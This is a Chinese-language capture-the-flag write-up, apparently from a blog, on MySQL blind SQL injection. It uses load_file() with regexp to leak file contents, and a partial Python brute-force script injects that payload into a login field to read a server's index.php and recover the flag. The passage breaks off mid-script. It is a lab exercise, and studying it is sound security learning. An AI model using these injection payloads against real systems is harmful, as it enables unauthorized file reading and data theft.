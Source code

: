 这里我们首先介绍一下 我们可以通过正则来匹配

这里我们来进行实验



<img src="https://i-blog.csdnimg.cn/blog_migrate/5871cfde716136261ccbd9815752f641.png" alt="" style="max-height:215px; box-sizing:content-box;" />


1.txt的内容为 aaa

我们如何通过读取呢

我们使用if

```lisp
if((load_file('/mnt/c/Users/Administrator/Desktop/1.txt'))regexp(""),0,1)
```

这里其实就是通过读取文件内容 然后经过正则匹配 如果是这些 就返回 1 否则返回 0

然后我们就可以在 regexp 后面进行输入内容 这里是aaa

```cobol
select count(*) from user where name = if((load_file('/mnt/c/Users/Administrator/Desktop/1.txt'))regexp('aa'),0,1);
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/fc70732196530c95dde8d2327697df58.png" alt="" style="max-height:148px; box-sizing:content-box;" />


发现识别到 是 aa 所以返回 1  这样我们就可以返回count(*)

我们试试看错误的

```cobol
select count(*) from user where name = if((load_file('/mnt/c/Users/Administrator/Desktop/1.txt'))regexp('aab'),0,1);
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/12acc348a412c7cd167515b58d6d3409.png" alt="" style="max-height:140px; box-sizing:content-box;" />


发现错误 所以返回0 所以不会执行前面的 count(*)

这样我们就可以实现盲注了

这里我们就可以开始写脚本了

到这题 其实就是 1 的话就出现 查询错误 0 就出现密码错误

然后我们就可以根据这个来写

password 还是 0

根据 上一题的 弱比较

```cobol
import string
 
import requests
 
url = "http://1f66dd86-549d-4dd2-be19-9b90b21b11e0.challenge.ctf.show/api/"
payload = """if((load_file("/var/www/html/api/index.php"))regexp("{0}"),0,1)"""
 
uuid = string.ascii_lowercase+ string.digits + "-{}"
flag = "ctfshow{"
for i in range(1,100):
    for j in uuid:
        payload1=payload.format(flag+j)
        data ={
            'username':payload1,
            'password':0
```